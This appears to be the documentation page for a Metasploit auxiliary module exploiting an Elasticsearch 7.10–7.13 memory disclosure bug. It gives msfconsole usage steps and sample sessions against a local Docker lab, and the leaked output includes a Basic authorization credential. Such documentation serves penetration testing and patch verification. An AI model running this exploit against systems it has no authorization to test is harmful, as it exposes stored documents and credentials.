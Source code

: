 ## Vulnerable Application

This module exploits a memory disclosure vulnerability in Elasticsearch
7.10.0 to 7.13.3 (inclusive). A user with the ability to submit arbitrary
queries to Elasticsearch can generate an error message containing previously
used portions of a data buffer.
This buffer could contain sensitive information such as Elasticsearch
documents or authentication details. This vulnerability's output is similar
to heartbleed.

### Docker Install

`docker run -p 9200:9200 -e "discovery.type=single-node" elasticsearch:7.13.2`

This will start a docker instance, however it will most likely on return
back empty memory data, or your own query. Running the
`elasticsearch_enum` module with good or bad credentials will generate
more interesting data.

## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use auxiliary/scanner/http/elasticsearch_memory_disclosure`
1. Do: `set rhosts [ip]`
1. Do: `run`
1. You should get a dump of memory.

## Actions

### SCAN

This action will dump the memory and print the leaked bytes count. Set `verbose`
to true to view the data. Default

### DUMP

This action will dump the memory and print the leaked bytes count. Set `verbose`
to true to view the data. The output is then stored as loot.

## Options

### LEAK_COUNT

How many times to run the memory dumper. Defaults to `1`

## Scenarios

### Elasticsearch 7.13.2 on Docker

The module is run with action `SCAN`, and `leak_count` set to `2` to have a better chance
of leaking interesting information.

```
msf6 > use auxiliary/scanner/http/elasticsearch_memory_disclosure
msf6 auxiliary(scanner/http/elasticsearch_memory_disclosure) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf6 auxiliary(scanner/http/elasticsearch_memory_disclosure) > set verbose true
verbose => true
msf6 auxiliary(scanner/http/elasticsearch_memory_disclosure) > set leak_count 2
leak_count => 2
msf6 auxiliary(scanner/http/elasticsearch_memory_disclosure) > run

[*] Leaking heartbeat response #1
[*] Leaking heartbeat response #2
[+] Leaked 2106 bytes
[*] Printable info leaked:
HTTP/1.1 200 OK..rnal Server Error..1:9200..User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36 Edg/114.0.1823.51..Content-Type: application/json..Content-Length: 2....@.: 2....@.........................................................................................................................................................................................................................................................."[truncated 1048076 bytes].HTTP/1.1 200 OK..rnal Server Error..1:9200..User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36 Edg/114.0.1823.51..Content-Type: application/json..Content-Length: 2....@.: 2....@.........................................................................................................................................................................................................................................................."[truncated 1048076 bytes]
..�aT�!...00 Internal Server Error....User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/114.0..Authorization: Basic YWRtaW46MTIzNDU2.........................................................................................х���...00 OK..rnal Server Error..1:9200..User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36 Edg/114.0.1823.51..Content-Type: application/json..Content-Length: 2....@..."[truncated 1048076 bytes]...�aT�!...00 Internal Server Error....User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/114.0..Authorization: Basic YWRtaW46MTIzNDU2.........................................................................................х���...00 OK..rnal Server Error..1:9200..User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36 Edg/114.0.1823.51..Content-Type: application/json..Content-Length: 2....@..."[truncated 1048076 bytes]
[*] Auxiliary module execution completed
```

In this example, we set the action to `DUMP` to store the data as well.

```
msf6 auxiliary(scanner/http/elasticsearch_memory_disclosure) > set action dump
action => dump
msf6 auxiliary(scanner/http/elasticsearch_memory_disclosure) > run

[*] Leaking heartbeat response #1
[*] Leaking heartbeat response #2
[+] Leaked 2088 bytes
[+] Elasticsearch memory data stored in /root/.msf4/loot/20230825124508_default_127.0.0.1_elasticsearch.me_033879.bin
[*] Printable info leaked:
HTTP/1.1 400 Bad Request..: 127.0.0.1:9200..User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 13.4; rv:109.0) Gecko/20100101 Firefox/114.0..Content-Type: application/json..Content-Length: 2....@................................................................................................................................................................................................................................................................................................................."[truncated 1048076 bytes].HTTP/1.1 400 Bad Request..: 127.0.0.1:9200..User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 13.4; rv:109.0) Gecko/20100101 Firefox/114.0..Content-Type: application/json..Content-Length: 2....@................................................................................................................................................................................................................................................................................................................."[truncated 1048076 bytes].�........l�Kn�0.D.��\�`%�&"Q�H�M�.�.�Pd��p0�O���Q.�B�.R�'j/w.������ڈāq�.�[8.��� ��yC]@j"Ͼ�,�� 0...�.�3�-��<��.H�\#.�:�X�.3.��]P�W�uCG��gG��c�N�.��z��y8.X2���B.�����.|���C.�w�.�s�'O��Z$1@�[���<.��?...��nyone. See https://www.elastic.co/guide/en/elasticsearch/reference/7.13/security-minimal-setup.html to enable security."..content-type: application/json; charset=UTF-8..content-encoding: gzip..: none..Sec-Fetch-Mode: cors..Sec-Fetch-Dest: empty..Accept-Encoding: gzip, deflate, br..Accept"[truncated 1048076 bytes]..�........l�Kn�0.D.��\�`%�&"Q�H�M�.�.�Pd��p0�O���Q.�B�.R�'j/w.������ڈāq�.�[8.��� ��yC]@j"Ͼ�,�� 0...�.�3�-��<��.H�\#.�:�X�.3.��]P�W�uCG��gG��c�N�.��z��y8.X2���B.�����.|���C.�w�.�s�'O��Z$1@�[���<.��?...��nyone. See https://www.elastic.co/guide/en/elasticsearch/reference/7.13/security-minimal-setup.html to enable security."..content-type: application/json; charset=UTF-8..content-encoding: gzip..: none..Sec-Fetch-Mode: cors..Sec-Fetch-Dest: empty..Accept-Encoding: gzip, deflate, br..Accept"[truncated 1048076 bytes]
[*] Auxiliary module execution completed
```
